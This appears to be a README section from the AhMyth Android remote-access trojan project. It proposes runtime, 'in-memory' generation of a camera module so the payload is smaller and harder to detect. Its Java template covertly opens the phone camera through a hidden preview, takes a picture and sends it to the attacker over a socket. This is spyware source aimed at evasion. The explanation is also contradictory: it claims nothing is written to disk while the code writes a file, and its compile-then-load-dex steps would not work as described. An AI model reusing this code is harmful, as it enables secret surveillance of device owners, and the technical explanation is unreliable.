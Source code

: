 ## <div align="center">Dynamic "In-Memory at Runtime" Camera Class Generation & Loading</div>
> A feature inspired by Metasploit Framework's Android Meterpreter payload.

If this ever does become a reality it will aid GREATLY in minimising the payload size and possibly detection as well.

<details>
  <summary>Experminetal Code Explanation</summary>
  <br>

The provided code in the dropdown tab below this one, performs the following operations listed below, all in memory, except for the part responsible for the generation of the "CameraManager.java" file, which is later used for dynamic in memory compilation, but even there, nothing is physically written to disk at all, Everything else, including compilation, loading, and instance creation, occurs entirely in memory.
  <br>

### <div align="center"><ins>Generation Phase (In Memory):</div></ins>

1. **Retrieve Source Code (In Memory):**
   - The source code is retrieved from `CamTemp.CAMERA_SOURCE_CODE` and stored in the `camTempSourceCode` variable, all in memory.

2. **Generate Dynamic Class (In Memory):**
   - Using the retrieved source code, a dynamic Java class is generated in memory using `TypeSpec.classBuilder("CameraManager")` from the `JavaPoet` library. The class is created entirely in memory.

3. **Create Java File (In Memory):**
   - A Java file, containing the generated dynamic class, is created in memory (`JavaFile`). The class is placed in a package named "ahmyth.mine.king.ahmyth," but this is all done in memory.

4. **Write Java Code to a File (On Disk):**
   - The generated Java code is written to a file named "CameraManager.java" using a `FileWriter`, but this file is also created in memory and later used for compilation. No physical file is written to disk during this phase.

### <div align="center"><ins>Loading Phase (In Memory):</div></ins>

1. **Compilation (In Memory):**
   - The generated Java code in "CameraManager.java" is compiled entirely in memory using the Java Compiler API (`JavaCompiler`). This means the compilation result is held in memory.

2. **Check Compilation Result (In Memory):**
   - After compilation, it checks the `compilationResult` entirely in memory to determine if the compilation was successful or not. There is no physical file on disk involved in this step.

3. **Load Compiled Class (In Memory):**
   - A `DexClassLoader` is used to load the compiled class in memory from the generated .dex file, without writing anything to disk.

4. **Create Instance (In Memory):**
   - Finally, an instance of the dynamically generated class is created entirely in memory using reflection (`generatedClass.getDeclaredConstructor().newInstance()`). This instance exists only in memory and can be used for further operations.

</details>

<details>
  <summary>Code</summary>

- ClassGen.java
> Responsible for Generating and Loading the "CameraManager.java" Class at runtime completely in-memory.
```java
package ahmyth.mine.king.ahmyth;

import com.squareup.javapoet.*;
import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import java.io.FileWriter;
import java.lang.reflect.Method;
import dalvik.system.DexClassLoader;

public class ClassGen {
    public static void main(String[] args) {
        try {
            String camTempSourceCode = CamTemp.CAMERA_SOURCE_CODE;

            TypeSpec generatedClass = TypeSpec.classBuilder("CameraManager") // Change the class name here
                    .addCode(camTempSourceCode)
                    .build();

            JavaFile javaFile = JavaFile.builder("ahmyth.mine.king.ahmyth", generatedClass)
                    .build();

            String javaCode = javaFile.toString();

            try (FileWriter writer = new FileWriter("CameraManager.java")) { // Change the output file name here
                writer.write(javaCode);
            }

            String dexPath = "./";
            String optimizedDexOutputPath = "./";

            JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
            int compilationResult = compiler.run(null, null, null, "CameraManager.java"); // Change the input file name here

            if (compilationResult == 0) {
                System.out.println("Compilation succeeded.");
            } else {
                System.err.println("Compilation failed.");
                System.exit(compilationResult);
            }

            ClassLoader classLoader = new DexClassLoader(
                    "CameraManager.dex", // Change the compiled .dex file name here
                    optimizedDexOutputPath,
                    null,
                    ClassLoader.getSystemClassLoader()
            );

            executeDynamicallyGeneratedClass(classLoader);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void executeDynamicallyGeneratedClass(ClassLoader classLoader) throws Exception {
        Class<?> generatedClass = classLoader.loadClass("ahmyth.mine.king.ahmyth.CameraManager"); // Change the class name here
        Object generatedInstance = generatedClass.getDeclaredConstructor().newInstance();
    }
}
```
- CamTemp.java
> "CameraManger" Template file required for class file generation.
```java
package ahmyth.mine.king.ahmyth;

public class CamTemp {
    public static final String CAMERA_SOURCE_CODE =
            "package ahmyth.mine.king.ahmyth;\n" +
            "import android.content.Context;\n" +
            "import android.content.pm.PackageManager;\n" +
            "import android.graphics.Bitmap;\n" +
            "import android.graphics.BitmapFactory;\n" +
            "import android.graphics.SurfaceTexture;\n" +
            "import android.hardware.Camera;\n" +
            "import android.hardware.Camera.PictureCallback;\n" +
            "import android.hardware.Camera.Parameters;\n" +
            "import org.json.JSONArray;\n" +
            "import org.json.JSONException;\n" +
            "import org.json.JSONObject;\n" +
            "import java.io.ByteArrayOutputStream;\n" +
            "public class CameraManager {\n" +
            "    private Context context;\n" +
            "    private Camera camera;\n" +
            "    public CameraManager(Context context) {\n" +
            "        this.context = context;\n" +
            "    }\n" +
            "    public void startUp(int cameraID) {\n" +
            "        camera = Camera.open(cameraID);\n" +
            "        Parameters parameters = camera.getParameters();\n" +
            "        camera.setParameters(parameters);\n" +
            "        try {\n" +
            "            camera.setPreviewTexture(new SurfaceTexture(0));\n" +
            "            camera.startPreview();\n" +
            "        } catch (Exception e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        camera.takePicture(null, null, new PictureCallback() {\n" +
            "            @Override\n" +
            "            public void onPictureTaken(byte[] data, Camera camera) {\n" +
            "                releaseCamera();\n" +
            "                sendPhoto(data);\n" +
            "            }\n" +
            "        });\n" +
            "    }\n" +
            "    private void sendPhoto(byte[] data) {\n" +
            "        try {\n" +
            "            Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);\n" +
            "            ByteArrayOutputStream bos = new ByteArrayOutputStream();\n" +
            "            bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos);\n" +
            "            JSONObject object = new JSONObject();\n" +
            "            object.put(\"image\", true);\n" +
            "            object.put(\"buffer\", bos.toByteArray());\n" +
            "            IOSocket.getInstance().getIoSocket().emit(\"x0000ca\", object);\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    private void releaseCamera() {\n" +
            "        if (camera != null) {\n" +
            "            camera.stopPreview();\n" +
            "            camera.release();\n" +
            "            camera = null;\n" +
            "        }\n" +
            "    }\n" +
            "    public JSONObject findCameraList() {\n" +
            "        if (!context.getPackageManager().hasSystemFeature(PackageManager.FEATURE_CAMERA)) {\n" +
            "            return null;\n" +
            "        }\n" +
            "        try {\n" +
            "            JSONObject cameras = new JSONObject();\n" +
            "            JSONArray list = new JSONArray();\n" +
            "            cameras.put(\"camList\", true);\n" +
            "            int numberOfCameras = Camera.getNumberOfCameras();\n" +
            "            for (int i = 0; i < numberOfCameras; i++) {\n" +
            "                Camera.CameraInfo info = new Camera.CameraInfo();\n" +
            "                Camera.getCameraInfo(i, info);\n" +
            "                JSONObject jo = new JSONObject();\n" +
            "                jo.put(\"id\", i);\n" +
            "                if (info.facing == Camera.CameraInfo.CAMERA_FACING_FRONT) {\n" +
            "                    jo.put(\"name\", \"Front\");\n" +
            "                } else if (info.facing == Camera.CameraInfo.CAMERA_FACING_BACK) {\n" +
            "                    jo.put(\"name\", \"Back\");\n" +
            "                } else {\n" +
            "                    jo.put(\"name\", \"Other\");\n" +
            "                }\n" +
            "                list.put(jo);\n" +
            "            }\n" +
            "            cameras.put(\"list\", list);\n" +
            "            return cameras;\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        return null;\n" +
            "    }\n" +
            "}\n" +
            "}";
}
```

</details>
